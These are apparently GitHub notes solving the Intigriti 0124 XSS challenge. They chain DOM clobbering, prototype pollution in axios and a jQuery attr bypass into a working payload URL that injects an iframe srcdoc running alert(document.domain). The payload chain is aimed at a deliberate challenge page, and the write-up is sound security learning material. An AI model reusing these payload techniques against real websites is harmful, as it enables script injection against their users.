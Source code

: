 + dom clobbering in search parameter.insert another <form id=”search”> above the form that’s in the challenge page. However, this would only allow me to hijack the searches, and that wouldn’t get me an XSS.

+ prototype pollution in axios library
payload: https://challenge-0124.intigriti.io/challenge?search=con&name=%3Cform+id%3Dsearch%3E%3Cinput+name%3D%22__proto__%5Bintigriti%5D%22+value%3D%22rodriguezjorgex%22%3E

+bypassing jquery checks
```
 if (repo.homepage && repo.homepage.startsWith("https://")) {
                $("#homepage").attr({
                    "src": repo.homepage,
                    "hidden": false
```
payload: `https://challenge-0124.intigriti.io/challenge?search=con&name=<form id=search><input name="__proto__[srcdoc][]" value="<img/src/onerror=alert(document.domain)>"><input name="__proto__[homepage]" value="https://google.com"><input name="__proto__[owner]" value="test">`
We get this error:
jquery-3.7.1.min.js:2 Uncaught (in promise) TypeError: Cannot use 'in' operator to search for 'set' in https://google.com
+ f I set the i variable to an array, it will bypass the error, and the e.setAttribute() function will be called, setting an attribute in the <iframe> tag. So if I can add an srcdoc attribute
+ by using __proto__[srcdoc][], I can make srcdoc into an array, and bypass the error, then execute the e.setAttribute function. Here’s the final payload:
`https://challenge-0124.intigriti.io/challenge?search=con&name=<form id=search><input name="__proto__[srcdoc][]" value="<img/src/onerror=alert(document.domain)>"><input name="__proto__[homepage]" value="https://google.com"><input name="__proto__[owner]" value="test">`
+ ![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/350819e0-e47c-4275-b07e-22c930831492)
refer: https://medium.com/@rodriguezjorgex/how-i-passed-the-intigriti-0124-challenge-b6c2d1cd1b7b

